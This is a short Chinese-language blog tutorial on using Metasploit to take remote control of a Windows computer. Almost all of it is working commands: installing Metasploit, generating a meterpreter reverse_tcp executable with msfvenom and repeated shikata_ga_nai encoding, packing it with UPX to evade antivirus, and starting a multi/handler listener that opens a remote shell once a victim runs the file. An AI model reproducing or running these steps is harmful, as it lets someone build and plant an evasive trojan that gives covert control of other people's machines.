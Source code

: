 title: 使用Metasploit远控你的电脑
categories: 教程
tags: [Metasploit,远控]
date: 2020-09-15 19:31:00
toc: true
---
# 安装MetaSploit
>我的环境是:Kubuntu20.04

一键脚本:
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall &&   chmod 755 msfinstall &&   ./msfinstall
```
然后就无了

# 生成一个远控程序
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=10.0.0.155 LPORT=52130 -f exe > test.exe

-p 攻击载荷
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
```
 - 使用upx加壳做免杀处理，命令如下
```bash
#安装upx
https://github.com/upx/upx/releases/tag/v3.95
#加壳
upx -9 test.exe
```
# 开始远控
- 启动Metasploit
```bash
msfconsole
```
- 在msf下输入
```bash
use exploit/multi/handler
```
- 查看需要设置的参数
```bash
show options
```
- 设置**payload**
```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```
- 设置**LHOST，LPORT**
```bash
set lhost 10.0.0.155
set lport 52130
```
- 启动程序
```bash
exploit
```
如有人打开**test.exe**，则会出现等待输入界面
```bash
meterpreter >
```
现在我们可以输入`help`来看具体可以远程做些什么了

#我是废物